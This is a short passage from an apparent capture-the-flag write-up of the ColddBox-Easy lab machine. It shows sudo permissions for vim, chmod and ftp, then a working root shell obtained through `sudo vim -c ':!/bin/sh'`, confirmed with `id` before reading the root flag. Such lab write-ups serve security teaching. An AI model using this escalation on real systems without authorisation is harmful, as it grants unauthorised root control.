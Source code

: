 ```bash
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Luckily (for us), `vim` is does not drop the elevated privileges and can be use to escalate our privileged access

```bash
c0ldd@ColddBox-Easy:~$ sudo vim -c ':!/bin/sh'

# id                               
uid=0(root) gid=0(root) grupos=0(root)

# cat /root/root.txt 
```
